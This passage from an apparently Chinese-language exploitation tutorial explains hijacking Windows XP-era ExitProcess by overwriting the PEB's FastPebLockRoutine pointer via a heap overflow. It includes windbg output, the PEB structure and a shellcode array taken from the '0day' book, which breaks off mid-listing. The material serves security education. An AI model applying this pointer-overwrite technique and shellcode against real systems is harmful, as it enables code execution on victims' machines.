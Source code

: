 ExitProcess有同步线程的动作,这个动作由RtlEnterCriticalSection()和RtlLeaveCriticalSection()来完成.这两个函数我们称为临界区函数.跟信号量和锁类似,临界区是一种轻量级机制,在某一时间内,只能由一个线程来执行某个代码段.

调用这两个临界区函数会先从PEB的0x20、0x24偏移处寻找函数指针.我们现在需要做的就是覆盖这两个位置的指针.

在windbg中执行 `!peb` 即可看到peb的位置.

```
#!cpp
0:000> !peb
PEB at 7ffdf000
    InheritedAddressSpace:    No
    ReadImageFileExecOptions: No
    BeingDebugged:            Yes
    ImageBaseAddress:         00400000
    Ldr                       00241e90
    Ldr.Initialized:          Yes
    Ldr.InInitializationOrderModuleList: 00241f28 . 00241fd0
    Ldr.InLoadOrderModuleList:           00241ec0 . 00241fc0
    Ldr.InMemoryOrderModuleList:         00241ec8 . 00241fc8
----------------------
typedef struct _PEB
{
    UCHAR InheritedAddressSpace; // 00h
    UCHAR ReadImageFileExecOptions; // 01h
    UCHAR BeingDebugged; // 02h
    UCHAR Spare; // 03h
    PVOID Mutant; // 04h
    PVOID ImageBaseAddress; // 08h
    PPEB_LDR_DATA Ldr; // 0Ch
    PRTL_USER_PROCESS_PARAMETERS ProcessParameters; // 10h
    PVOID SubSystemData; // 14h
    PVOID ProcessHeap; // 18h
    PVOID FastPebLock; // 1Ch
    PPEBLOCKROUTINE FastPebLockRoutine; // 20h
    PPEBLOCKROUTINE FastPebUnlockRoutine; // 24h
} PEB, *PPEB; 
```

Peb-&gt;FastPebLockRoutine指针的内容为RtlEnterCriticalSection函数的地址,Peb-&gt;FastPebUnlockRoutine为RtlLeaveCriticalSection()地址,既0x20偏移、0x24偏移.

#### ps:在xp sp1之前,PEB的位置是固定的,sp2基址浮动,2003没有FastPebLockRoutine和FastPebUnlockRoutine.

因为shellcode也会调用ExitProcess,所以会shellcode会反复执行,应该在shellcode的头部恢复覆盖掉的值.

0day书中的代码:

```
#!c
#include <windows.h>
char shellcode[]=
"\x90\x90\x90\x90\x90"    // nop
"\x90\x90\x90\x90\x90"    // nop
            // repaire the pointer which shooted by heap shooting
"\xb8\x20\xf0\xfd\x7f"    // mov eax,7ffdf020
"\xbb\x03\x91\xf8\x77"    // mov ebx,77F89103 this addr may related to OS patch version
"\x89\x18"                // mov dword ptr ds:[eax],ebx
            // 168 bytes popwindow shellcode
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75"
"\x05\x95\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE"
```